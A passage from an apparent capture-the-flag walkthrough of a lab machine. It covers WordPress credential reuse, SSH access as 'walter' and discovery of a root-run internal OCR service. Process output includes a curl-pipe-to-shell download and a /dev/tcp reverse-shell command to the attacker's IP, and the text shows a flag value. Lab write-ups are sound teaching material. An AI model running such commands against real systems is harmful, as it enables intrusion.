### Local User Discovery

Local account enumeration showed two interactive users, `walter` and `admin`. Since `walter` had already been identified during WordPress enumeration, this user became the primary target for lateral movement.

```shell
</html/wp-content/plugins/shell-plugin$ cat /etc/passwd                      
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:101:102::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:992:992:systemd Resolver:/:/usr/sbin/nologin
pollinate:x:102:1::/var/cache/pollinate:/bin/false
polkitd:x:991:991:User for polkitd:/:/usr/sbin/nologin
syslog:x:103:104::/nonexistent:/usr/sbin/nologin
uuidd:x:104:105::/run/uuidd:/usr/sbin/nologin
tcpdump:x:105:107::/nonexistent:/usr/sbin/nologin
tss:x:106:108:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:107:109::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:989:989:Firmware update daemon:/var/lib/fwupd:/usr/sbin/nologin
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
walter:x:1000:1000:walter:/home/walter:/bin/bash
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
admin:x:1001:1001:,,,:/home/admin:/bin/bash
_laurel:x:999:988::/var/log/laurel:/bin/false
```

| Username |
| -------- |
| walter   |
| admin    |

## Privilege Escalation to walter

### WordPress Configuration and Credential Reuse

The WordPress configuration file was inspected next. WordPress installations often contain database credentials in `wp-config.php`, and in this case the site was configured to use SQLite while still defining dummy database credentials. Even though the values were not required for SQLite, they represented useful candidate credentials for local user authentication.

```shell
www-data@makesense:/var/www/html$ cat wp-config.php
<?php
// SQLite database configuration
define( 'DB_DIR', __DIR__ . '/wp-content/database/' );
define( 'DB_FILE', '.ht.sqlite' );

// Dummy MySQL settings (required but not used with SQLite)
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'walter' );
define( 'DB_PASSWORD', 'JbhHDAEgXvri3!' );
define( 'DB_HOST', 'localhost' );
define( 'DB_CHARSET', 'utf8' );
define( 'DB_COLLATE', '' );

$table_prefix = 'wp_';
define( 'WP_DEBUG', false );

define('AUTH_KEY',         '%88$_8C0xYR s^9jz;F epY,CO|+Up#ZFIdRS&Gqd~5O/|<^7DmLtEm=SjV|jmWZ');
define('SECURE_AUTH_KEY',  'BD-p*m6hvWAGGBDg%_UC,|>};`C2<1uK>*x!h.Wf*dE;lbhaQVbHw+uc@6OfH>B%');
define('LOGGED_IN_KEY',    ';2fn^sP8F`HK0g,8C&2ar})EifGz@,5Z1{IoDD+CzOT@3w[g~*aM-+=zWcxGBYk2');
define('NONCE_KEY',        's>>f8%soM5P=D$J9UXV-kF]lKZ92.KF%FDS#+! ;(A|C9kMWT(=A>99->-$$>UvU');
define('AUTH_SALT',        'V 0X(1n-@p&})rQpQB_mEax]D9Z*;iM+23&b]!53._;,).:Lj?1ky56*Vaa~KF(B');
define('SECURE_AUTH_SALT', '-{[x4pgl %S5{_s}nE!%H8,05AO_699M4_[mLt^tVC$Kh4;s|n8~O<CSE4#uPWN.');
define('LOGGED_IN_SALT',   'wUxZI^1#)4o)C1KJ8a5o-k{V3L)agi|fofV0SzuSUI;1k%1 !9Q!P@-*j8Y_j%$;');
define('NONCE_SALT',       'j #rMhd[olj2$j8|QAF7L8rR-D kf&gs,:oX4py6x?6V3|oJ?[b~h,[~3uhH.|X%');

if ( ! defined( 'ABSPATH' ) ) {
    define( 'ABSPATH', __DIR__ . '/' );
}

define( 'WP_SQLITE_PLUGIN', true );
require_once ABSPATH . 'wp-settings.php';
```

The discovered credentials matched the local user `walter`.

| Username | Password       |
| -------- | -------------- |
| walter   | JbhHDAEgXvri3! |

The password from `wp-config.php` was reused against SSH. This provided a stable login as `walter` and avoided the limitations of the web shell.

```shell
┌──(kali㉿kali)-[~]
└─$ ssh walter@makesense.htb                               
The authenticity of host 'makesense.htb (10.129.26.222)' can't be established.
ED25519 key fingerprint is: SHA256:ZuPyKYvneacLwQJfW7aR8rIt6ppYCS22aWYI5nO3Ddk
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'makesense.htb' (ED25519) to the list of known hosts.
walter@makesense.htb's password: 
Welcome to Ubuntu 24.04.4 LTS (GNU/Linux 6.8.0-124-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat Jul  4 08:24:19 PM UTC 2026

  System load:  0.53              Processes:             225
  Usage of /:   64.1% of 7.53GB   Users logged in:       0
  Memory usage: 9%                IPv4 address for eth0: 10.129.26.222
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

2 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm

Last login: Sat Jul 4 20:24:20 2026 from 10.10.16.240
walter@makesense:~$
```

## user.txt

With access as `walter`, the user flag could be read.

```shell
walter@makesense:~$ cat user.txt 
f54d3f2fef1aaf8ab81015e509ba9234
```

## Enumeration (walter)

### Local Privilege Context

The user context showed no additional group memberships.

```shell
walter@makesense:~$ id
uid=1000(walter) gid=1000(walter) groups=1000(walter)
```

The home directory did not contain obvious private keys or writable escalation targets.

```shell
walter@makesense:~$ ls -la
total 32
drwxr-x--- 4 walter walter 4096 Jul  1 00:45 .
drwxr-xr-x 4 root   root   4096 Jul  1 00:45 ..
lrwxrwxrwx 1 root   root      9 May 29 17:11 .bash_history -> /dev/null
-rw-r--r-- 1 walter walter  220 Mar 31  2024 .bash_logout
-rw-r--r-- 1 walter walter 3771 Mar 31  2024 .bashrc
drwx------ 2 walter walter 4096 Jul  1 00:45 .cache
-rw-r--r-- 1 walter walter  807 Mar 31  2024 .profile
drwx------ 2 walter walter 4096 Jul  1 00:45 .ssh
-rw-r----- 1 root   walter   33 Jul  4 19:01 user.txt
```

`sudo` was not available to `walter`.

```shell
walter@makesense:~$ sudo -l
[sudo] password for walter: 
Sorry, user walter may not run sudo on makesense.
```

### Internal Optical Character Recognition (OCR) Service Discovery

Network enumeration revealed an internal service bound to `127.0.0.1:8001`. This matched the filtered external `8001/TCP` result from the initial scan and indicated that the service was intentionally restricted to local access.

```shell
walter@makesense:~$ ss -tulpn
Netid                                        State                                         Recv-Q                                        Send-Q                                                                                Local Address:Port                                                                                 Peer Address:Port                                        Process                                        
udp                                          UNCONN                                        0                                             0                                                                                        127.0.0.54:53                                                                                        0.0.0.0:*                                                                                          
udp                                          UNCONN                                        0                                             0                                                                                     127.0.0.53%lo:53                                                                                        0.0.0.0:*                                                                                          
udp                                          UNCONN                                        0                                             0                                                                                           0.0.0.0:68                                                                                        0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             4096                                                                                     127.0.0.54:53                                                                                        0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             4096                                                                                  127.0.0.53%lo:53                                                                                        0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             4096                                                                                        0.0.0.0:22                                                                                        0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             511                                                                                         0.0.0.0:80                                                                                        0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             511                                                                                         0.0.0.0:443                                                                                       0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             4096                                                                                      127.0.0.1:8001                                                                                      0.0.0.0:*
```

Process enumeration showed that the internal service was a PHP development server started by a root-owned cron script from `/root/.scripts/start_ocr4.sh`. The document root was `/root/ocr4/`, and the process was running as `root`.

```shell
walter@makesense:~$ ps -auxf
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           2  0.0  0.0      0     0 ?        S    19:00   0:00 [kthreadd]
root           3  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [pool_workqueue_release]
root           4  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-rcu_g]
root           5  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-rcu_p]
root           6  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-slub_]
root           7  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-netns]
root           9  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/0:0H-kblockd]
root          12  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-mm_pe]
root          13  0.0  0.0      0     0 ?        I    19:00   0:00  \_ [rcu_tasks_kthread]
root          14  0.0  0.0      0     0 ?        I    19:00   0:00  \_ [rcu_tasks_rude_kthread]
root          15  0.0  0.0      0     0 ?        I    19:00   0:00  \_ [rcu_tasks_trace_kthread]
root          16  0.0  0.0      0     0 ?        S    19:00   0:01  \_ [ksoftirqd/0]
root          17  0.0  0.0      0     0 ?        I    19:00   0:03  \_ [rcu_preempt]
root          18  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [migration/0]
root          19  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [idle_inject/0]
root          20  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [cpuhp/0]
root          21  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [cpuhp/1]
root          22  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [idle_inject/1]
root          23  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [migration/1]
root          24  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [ksoftirqd/1]
root          26  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/1:0H-events_highpri]
root          27  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [kdevtmpfs]
root          28  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-inet_]
root          29  0.0  0.0      0     0 ?        R    19:00   0:02  \_ [kauditd]
root          30  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [khungtaskd]
root          31  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [oom_reaper]
root          33  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-write]
root          35  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [kcompactd0]
root          36  0.0  0.0      0     0 ?        SN   19:00   0:00  \_ [ksmd]
root          38  0.0  0.0      0     0 ?        SN   19:00   0:00  \_ [khugepaged]
root          39  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-kinte]
root          40  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-kbloc]
root          41  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-blkcg]
root          42  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [irq/9-acpi]
root          43  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-tpm_d]
root          44  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-ata_s]
root          45  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-md]
root          46  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-md_bi]
root          47  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-edac-]
root          48  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-devfr]
root          49  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [watchdogd]
root          50  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-quota]
root          52  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [kswapd0]
root          53  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [ecryptfs-kthread]
root          54  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-kthro]
root          55  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [irq/24-pciehp]
root          56  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [irq/25-pciehp]
root          57  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [irq/26-pciehp]
root          58  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [irq/27-pciehp]
root          59  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [irq/28-pciehp]
root          60  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [irq/29-pciehp]
root          61  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [irq/30-pciehp]
root          62  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [irq/31-pciehp]
root          63  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [irq/32-pciehp]
root          64  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [irq/33-pciehp]
root          65  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [irq/34-pciehp]
root          66  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [irq/35-pciehp]
root          67  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [irq/36-pciehp]
root          68  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [irq/37-pciehp]
root          69  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [irq/38-pciehp]
root          70  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [irq/39-pciehp]
root          71  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [irq/40-pciehp]
root          72  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [irq/41-pciehp]
root          73  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [irq/42-pciehp]
root          74  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [irq/43-pciehp]
root          75  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [irq/44-pciehp]
root          76  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [irq/45-pciehp]
root          77  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [irq/46-pciehp]
root          78  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [irq/47-pciehp]
root          79  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [irq/48-pciehp]
root          80  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [irq/49-pciehp]
root          81  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [irq/50-pciehp]
root          82  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [irq/51-pciehp]
root          83  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [irq/52-pciehp]
root          84  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [irq/53-pciehp]
root          85  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [irq/54-pciehp]
root          86  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [irq/55-pciehp]
root          87  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-acpi_]
root          88  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [scsi_eh_0]
root          89  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-scsi_]
root          90  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [scsi_eh_1]
root          91  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-scsi_]
root          95  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-kstrp]
root          97  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/u5:0]
root         111  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-charg]
root         138  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/0:1H]
root         163  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [scsi_eh_2]
root         164  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-scsi_]
root         165  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [scsi_eh_3]
root         166  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-scsi_]
root         167  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [scsi_eh_4]
root         168  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-scsi_]
root         169  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [scsi_eh_5]
root         170  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-scsi_]
root         171  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [scsi_eh_6]
root         172  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-scsi_]
root         173  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [scsi_eh_7]
root         174  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-scsi_]
root         175  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [scsi_eh_8]
root         176  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-scsi_]
root         177  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [scsi_eh_9]
root         178  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-scsi_]
root         179  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [scsi_eh_10]
root         181  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-scsi_]
root         183  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [scsi_eh_11]
root         184  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-scsi_]
root         188  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [scsi_eh_12]
root         189  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-scsi_]
root         190  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [scsi_eh_13]
root         191  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-scsi_]
root         192  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [scsi_eh_14]
root         193  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-scsi_]
root         194  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [scsi_eh_15]
root         196  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-scsi_]
root         197  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [scsi_eh_16]
root         198  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-scsi_]
root         199  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [scsi_eh_17]
root         200  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-scsi_]
root         201  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [scsi_eh_18]
root         202  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-scsi_]
root         207  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [scsi_eh_19]
root         208  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-scsi_]
root         209  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [scsi_eh_20]
root         211  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-scsi_]
root         212  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [scsi_eh_21]
root         213  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-scsi_]
root         214  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [scsi_eh_22]
root         217  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-scsi_]
root         218  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [scsi_eh_23]
root         219  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-scsi_]
root         220  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [scsi_eh_24]
root         221  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-scsi_]
root         223  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [scsi_eh_25]
root         225  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-scsi_]
root         226  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [scsi_eh_26]
root         228  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-scsi_]
root         229  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [scsi_eh_27]
root         230  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-scsi_]
root         231  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [scsi_eh_28]
root         232  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-scsi_]
root         233  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [scsi_eh_29]
root         234  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-scsi_]
root         235  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [scsi_eh_30]
root         236  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-scsi_]
root         237  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [scsi_eh_31]
root         238  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-scsi_]
root         292  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-raid5]
root         330  0.0  0.0      0     0 ?        D    19:00   0:03  \_ [jbd2/sda4-8]
root         331  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-ext4-]
root         442  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [psimon]
root         540  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [irq/60-vmw_vmci]
root         541  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [irq/61-vmw_vmci]
root         542  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [irq/62-vmw_vmci]
root         570  0.0  0.0      0     0 ?        S    19:00   0:00  \_ [irq/16-vmwgfx]
root         571  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-ttm]
root         573  0.0  0.0      0     0 ?        I<   19:00   0:00  \_ [kworker/R-crypt]
root         601  0.0  0.0      0     0 ?        S    19:01   0:00  \_ [jbd2/sda2-8]
root         602  0.0  0.0      0     0 ?        I<   19:01   0:00  \_ [kworker/R-ext4-]
root         714  0.0  0.0      0     0 ?        S    19:01   0:00  \_ [audit_prune_tree]
root        3726  0.1  0.0      0     0 ?        I    19:09   0:05  \_ [kworker/0:0-events]
root        5912  0.0  0.0      0     0 ?        I    19:17   0:00  \_ [kworker/u4:0-ext4-rsv-conversion]
root        7378  0.0  0.0      0     0 ?        I<   19:23   0:00  \_ [kworker/1:2H-kblockd]
root       16138  0.0  0.0      0     0 ?        I    19:57   0:01  \_ [kworker/1:1-events]
root       16337  0.0  0.0      0     0 ?        I    19:58   0:00  \_ [kworker/u4:1-flush-8:0]
root       19067  0.0  0.0      0     0 ?        I    20:09   0:00  \_ [kworker/0:2-cgroup_free]
root       21115  0.0  0.0      0     0 ?        I    20:16   0:00  \_ [kworker/u4:4-ext4-rsv-conversion]
root       21966  0.0  0.0      0     0 ?        I    20:20   0:00  \_ [kworker/1:3-cgroup_free]
root       23203  0.0  0.0      0     0 ?        S    20:24   0:00  \_ [psimon]
root       23206  0.0  0.0      0     0 ?        I    20:24   0:00  \_ [kworker/0:1-events]
root       23207  0.0  0.0      0     0 ?        I    20:24   0:00  \_ [kworker/0:3]
root           1  0.0  0.3  22088 13392 ?        Ss   19:00   0:01 /sbin/init splash noprompt noshell automatic-ubiquity vt.handoff=7
root         378  0.0  0.3  42252 15224 ?        S<s  19:00   0:00 /usr/lib/systemd/systemd-journald
root         434  0.0  0.2  30008  8708 ?        Ss   19:00   0:00 /usr/lib/systemd/systemd-udevd
systemd+     646  0.0  0.3  21584 12816 ?        Ss   19:01   0:00 /usr/lib/systemd/systemd-resolved
systemd+     648  0.0  0.1  91028  7800 ?        Ssl  19:01   0:00 /usr/lib/systemd/systemd-timesyncd
root         663  0.3  0.0  86568  3788 ?        R<sl 19:01   0:19 /sbin/auditd
_laurel      670  0.3  0.1  10524  6960 ?        S<   19:01   0:16  \_ /usr/local/sbin/laurel --config /etc/laurel/config.toml
root         785  0.0  0.2  53468 11968 ?        Ss   19:01   0:00 /usr/bin/VGAuthService
root         787  0.1  0.2 317200 10660 ?        Ssl  19:01   0:09 /usr/bin/vmtoolsd
root         798  0.0  0.0   3940  3240 ?        Ss   19:01   0:00 dhclient -1 -4 -v -i -pf /run/dhclient.eth0.pid -lf /var/lib/dhcp/dhclient.eth0.leases -I -df /var/lib/dhcp/dhclient6.eth0.leases eth0
message+     822  0.0  0.1   9832  5540 ?        Ss   19:01   0:00 @dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only
polkitd      868  0.0  0.1 308164  7948 ?        Ssl  19:01   0:00 /usr/lib/polkit-1/polkitd --no-debug
root         890  0.0  0.2  18000  8804 ?        Ss   19:01   0:00 /usr/lib/systemd/systemd-logind
root         892  0.0  0.3 468984 13592 ?        Ssl  19:01   0:00 /usr/libexec/udisks2/udisksd
syslog       924  0.0  0.1 222508  6572 ?        Ssl  19:01   0:00 /usr/sbin/rsyslogd -n -iNONE
root         955  0.0  0.3 318300 12904 ?        Ssl  19:01   0:00 /usr/sbin/ModemManager
root        1237  0.0  0.0   6824  2864 ?        Ss   19:01   0:00 /usr/sbin/cron -f -P
root        1266  0.0  0.0   9544  3840 ?        S    19:01   0:00  \_ /usr/sbin/CRON -f -P
root        1306  0.0  0.0   2800  1812 ?        Ss   19:01   0:00      \_ /bin/sh -c /root/.scripts/start_ocr4.sh
root        1309  0.0  0.0   7340  3588 ?        S    19:01   0:03          \_ /bin/bash /root/.scripts/start_ocr4.sh
root        1411  0.0  0.7 228488 30464 ?        S    19:01   0:00              \_ php -S 127.0.0.1:8001 -t /root/ocr4/
root       24420  0.0  0.0   5684  2060 ?        S    20:28   0:00              \_ sleep 1
root        1282  0.0  0.0   6104  2000 tty1     Ss+  19:01   0:00 /sbin/agetty -o -p -- \u --noclear - linux
root        1331  0.0  0.7 232504 31568 ?        Ss   19:01   0:02 /usr/sbin/apache2 -k start
www-data   18684  0.1  1.4 308480 58540 ?        S    20:07   0:01  \_ /usr/sbin/apache2 -k start
www-data   21655  0.0  0.0   2800  1876 ?        S    20:18   0:00  |   \_ sh -c -- curl 10.10.16.240/x|sh
www-data   21657  0.0  0.0   2800  1808 ?        S    20:18   0:00  |       \_ sh
www-data   21660  0.0  0.0   4324  3328 ?        S    20:18   0:00  |           \_ bash -c /bin/bash -i >& /dev/tcp/10.10.16.240/9001 0>&1
www-data   21661  0.0  0.0   4588  3920 ?        S    20:18   0:00  |               \_ /bin/bash -i
www-data   21853  0.0  0.2  18448 10788 ?        S    20:19   0:00  |                   \_ python3 -c import pty;pty.spawn("/bin/bash")
www-data   21854  0.0  0.1   7960  4164 pts/0    Ss+  20:19   0:00  |                       \_ /bin/bash
www-data   20751  0.3  1.5 310760 60156 ?        S    20:15   0:02  \_ /usr/sbin/apache2 -k start
www-data   21043  0.1  1.4 310560 57700 ?        S    20:16   0:01  \_ /usr/sbin/apache2 -k start
www-data   21305  0.2  1.4 310720 59900 ?        S    20:17   0:01  \_ /usr/sbin/apache2 -k start
www-data   21828  0.2  1.3 234600 55380 ?        S    20:19   0:01  \_ /usr/sbin/apache2 -k start
www-data   22875  0.3  1.4 310936 60116 ?        S    20:23   0:01  \_ /usr/sbin/apache2 -k start
www-data   23152  0.1  1.3 236396 55688 ?        S    20:24   0:00  \_ /usr/sbin/apache2 -k start
www-data   23575  0.1  1.3 234436 53852 ?        S    20:25   0:00  \_ /usr/sbin/apache2 -k start
www-data   23833  0.2  1.4 236532 56512 ?        S    20:26   0:00  \_ /usr/sbin/apache2 -k start
www-data   24091  0.4  1.4 236552 56436 ?        S    20:27   0:00  \_ /usr/sbin/apache2 -k start
www-data   24348  0.0  0.3 233196 14668 ?        S    20:28   0:00  \_ /usr/sbin/apache2 -k start
root        1699  0.0  0.2 313964  9048 ?        Ssl  19:02   0:00 /usr/libexec/upowerd
root        1780  0.0  0.2  12024  8192 ?        Ss   19:02   0:00 sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups
root       23195  0.0  0.2  14960 10664 ?        Ss   20:24   0:00  \_ sshd: walter [priv]
walter     23315  0.0  0.1  15120  7084 ?        S    20:24   0:00      \_ sshd: walter@pts/1
walter     23318  0.0  0.1   8648  5628 pts/1    Ss   20:24   0:00          \_ -bash
walter     24421  200  0.1  12316  5288 pts/1    R+   20:28   0:00              \_ ps -auxf
root       22980  0.0  1.0 479304 42976 ?        Ssl  20:23   0:00 /usr/libexec/fwupd/fwupd
walter     23205  0.0  0.2  20164 11204 ?        Ss   20:24   0:00 /usr/lib/systemd/systemd --user
walter     23208  0.0  0.0  21160  3572 ?        S    20:24   0:00  \_ (sd-pam)
```

The most important observation was the execution context: any code executed by the OCR PHP server would run as `root`.

```shell
<--- CUT FOR BREVITY --->
root        1237  0.0  0.0   6824  2864 ?        Ss   19:01   0:00 /usr/sbin/cron -f -P
root        1266  0.0  0.0   9544  3840 ?        S    19:01   0:00  \_ /usr/sbin/CRON -f -P
root        1306  0.0  0.0   2800  1812 ?        Ss   19:01   0:00      \_ /bin/sh -c /root/.scripts/start_ocr4.sh
